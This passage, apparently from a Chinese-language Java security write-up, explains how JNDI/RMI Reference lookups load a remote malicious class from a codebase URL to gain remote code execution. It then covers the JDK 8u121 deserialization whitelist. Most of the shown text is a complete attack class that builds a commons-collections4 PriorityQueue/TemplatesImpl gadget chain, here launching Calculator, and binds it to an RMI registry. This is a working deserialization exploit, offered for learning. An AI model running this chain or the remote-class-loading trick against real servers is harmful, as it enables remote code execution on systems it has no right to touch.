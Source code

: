 最后，会通过这一行代码

```
clas = helper.loadClass(factoryName, codebase);
```



完成对远程class的读取加载，其中factoryName为我们服务端bind服务时传的Reference的Calc值，而codebase则是http://localhost/，就这样，我们就可以让客户端在lookup的时候，无需其他gadget，直接让其加载远程恶意class，达到RCE。

原理上来说，这属于一种后序列化的触发gadget，因为对于RMI来说，Reference对象也是需要反序列化远程RMI注册中心返回的序列化数据而构造出来的，只是说在其反序列化构造期间，它并没有直接触发RCE，而是在其被反序列化后，一系列对Reference对象方法的执行而触发，我们可以称之为“后反序列化”吧！

#### 二、jdk版本 = jdk8u121

##### 反序列化白名单机制

在jdk8u121的时候，加入了反序列化白名单的机制，导致了几乎全部gadget都不能被反序列化了，究竟有哪些类被列入白名单呢？我们一探究竟

那，我们直接bind一个恶意gadget到RMI Registry看看吧

```
/**
 * RMI服务端攻击RMI Registry
 *
 * 需要服务端和注册中心都存在此依赖 org.apache.commons:commons-collections4:4.0
 *
 * @author threedr3am
 */
public class AttackRMIRegistry {

  public static void main(String[] args) {
    try {
      Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
      Remote remote = Gadgets.createMemoitizedProxy(Gadgets.createMap("threedr3am", makePayload(new String[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"})), Remote.class);
      registry.bind("hello", remote);
    } catch (AlreadyBoundException | RemoteException e) {
      e.printStackTrace();
    } catch (Exception e) {
      e.printStackTrace();
    }
  }

  private static Object makePayload(String[] args) throws Exception {
    final Object templates = Gadgets.createTemplatesImpl(args[0]);
    // mock method name until armed
    final InvokerTransformer transformer = new InvokerTransformer("toString", new Class[0], new Object[0]);

    // create queue with numbers and basic comparator
    final PriorityQueue<Object> queue = new PriorityQueue<Object>(2,new TransformingComparator(transformer));
    // stub data for replacement later
    queue.add(1);
    queue.add(1);

    // switch method called by comparator
    Reflections.setFieldValue(transformer, "iMethodName", "newTransformer");

    // switch contents of queue
    final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");
    queueArray[0] = templates;
    queueArray[1] = 1;
    return queue;
  }
}
```